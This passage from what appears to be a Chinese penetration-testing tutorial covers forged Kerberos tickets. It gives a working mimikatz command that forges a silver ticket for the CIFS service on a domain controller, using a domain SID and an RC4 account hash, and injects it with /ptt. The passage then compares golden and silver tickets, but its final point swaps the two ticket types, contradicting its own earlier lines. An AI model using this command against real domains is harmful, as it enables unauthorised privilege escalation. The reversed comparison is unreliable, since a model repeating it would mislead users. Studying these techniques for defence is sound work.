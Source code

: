    ```apl
   01kerberos::golden /user:Administrator /domain:laffrex.com /sid:S-1-5-21-1027567978-1567870151-2422577431 /target:dc.laffrex.com /service:cifs /rc4:bc8144babd6a3fa15f0e4a20cb31b77b /ptt
   ```

   ![写入白银票据](https://minioapi.laffrex.top/laffrex/pictures/2024/11/14/202411141632858.png)

   

3. 验证权限

   

   ![验证权限](https://minioapi.laffrex.top/laffrex/pictures/2024/11/14/202411141653352.png)

   

### 两者区别

#### 访问权限

- 黄金票据:伪造TGT，可以获取任何Kerberos服务权限
- 白银票据:伪造TGS，只能访问指定的服务

#### 加密方式

- 黄金票据:由Kerberos的Hash加密
- 白银票据:由服务账号(通常为计算机账户)Hash加密

#### 认证流程

- 黄金票据:黄金票据的利用过程需要访问域控
- 白银票据:不需要认证，可以跳过KDC的认证

#### 针对目标

- 黄金票据：TGS ticket针对的是某个机器上的某个服务，
- 白银票据：TGT针对的是所有机器的所有服务